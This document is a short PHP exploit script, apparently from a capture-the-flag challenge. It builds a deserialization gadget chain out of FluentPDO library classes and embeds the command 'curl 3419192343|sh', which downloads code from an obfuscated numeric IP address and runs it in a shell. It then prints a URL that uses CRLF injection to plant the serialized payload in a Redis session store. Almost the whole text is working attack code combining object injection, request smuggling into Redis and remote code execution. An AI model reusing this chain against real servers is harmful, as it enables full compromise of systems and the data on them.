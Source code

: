 ### Avatar



```php
<?php
  namespace Envms\FluentPDO{
    class Structure{
      public $primaryKey;
      function __construct(){
        $this->primaryKey = 'system';
      }
    }
    class Query{
      public $pdo;
      public $structure;
      function __construct($struct){
        $this->pdo = null;
        $this->structure = $struct;
      }
    }
    class Regex{
    }
  }

  namespace Envms\FluentPDO\Queries{
    class Select{
      public $fluent;
      public $clauses;
      public $statements;
      public $regex;
      function __construct($query, $clauses, $statements, $regex){
        $this->fluent = $query;
        $this->clauses = $clauses;
        $this->statements = $statements;
        $this->regex = $regex;
      }

    }
  }

  namespace {
    $regex = new Envms\FluentPDO\Regex();
    $struct = new Envms\FluentPDO\Structure();
    $query = new Envms\FluentPDO\Query($struct);

    $c_clauses = [];
    $c_statements = ['SELECT'=>['x:x'], 'FROM'=>'curl 3419192343|sh'];
    $common= new Envms\FluentPDO\Queries\Select($query, $c_clauses, $c_statements, $regex);

    $n_clauses = ['x' => [$common, 'getQuery']];
    $n_statements = ['x' => True];
    $name= new Envms\FluentPDO\Queries\Select(null, $n_clauses, $n_statements, null);

    $name= unserialize(serialize($name));
    echo 'url=http://ginoah.tw:8080/a.b%250d%250aSET%2520PHPREDIS_SESSION:7ae84e5c2a2be644c1fdf1b1eeb7d0df%2520%2527username|'.urlencode(urlencode(serialize($name)))."%2527%250d%250aHost:%2520xx\n";
    die();
  }

?>
```
